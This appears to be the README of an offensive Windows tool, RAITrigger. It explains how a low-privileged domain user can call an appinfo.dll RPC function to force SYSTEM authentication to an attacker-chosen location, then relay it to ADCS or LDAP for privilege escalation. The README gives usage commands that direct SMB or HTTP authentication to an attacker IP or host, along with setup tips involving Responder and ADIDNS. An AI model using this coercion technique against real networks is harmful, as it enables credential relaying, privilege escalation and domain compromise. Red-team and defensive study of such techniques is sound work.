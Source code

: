 # RAITrigger

The RPC-function `RAiForceElevationPromptForCOM` from the `appinfo.dll` library allows SYSTEM coercion. This only works on **domain joined systems**. It turns out, that this function can be called from any low privileged user (not to spawn a process) but to trigger SYSTEM authentication to an arbitrary location. This is because `CreateFileW` is called as SYSTEM to the first input parameter's location:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/SystemTrigger.png?raw=true" width="500">
</div>
<br>

As the low privileged user is still impersonated, this cannot be used as Potato trigger to elevate Privileges from `SEImpersonate` to SYSTEM:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Impersonation.png?raw=true" width="500">
</div>
<br>

But it can be used to request a computer account certificate against ADCS when web enrollment is enabled with the incoming SMB authentication. Or it can be used for LPE with relaying to LDAP - when LDAP Signing is not enabled.

To Trigger SMB authentication:
```bash
[*] RAITrigger.exe \\attackerip\test\test.exe
```

To Trigger HTTP authentication (WebClient service needs to be enabled):
```bash
[*] RAITrigger.exe \\hostname@80\test\test.exe
```

HTTP authentication is only triggered to trusted intranet zone systems, so you will need to create an ADIDNS record for your Kali IP or be in the same subnet and use e.G. Responder. Never use the full FQDN, only the hostname.

Calling this function from remote (even with local administrator) leads to `rpc_access_denied` so this is no alternative to e.G. PetitPotam or similar:

<br>
<div align="center">
    <img src="https://github.com/rtecCyberSec/RAITrigger/blob/main/Denied.png?raw=true" width="500">
</div>
<br>


## Room for improvement

- The NtApiDotNet library is huge. Using MIDL bytes can drastically reduce the assembly size similar to [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers/)
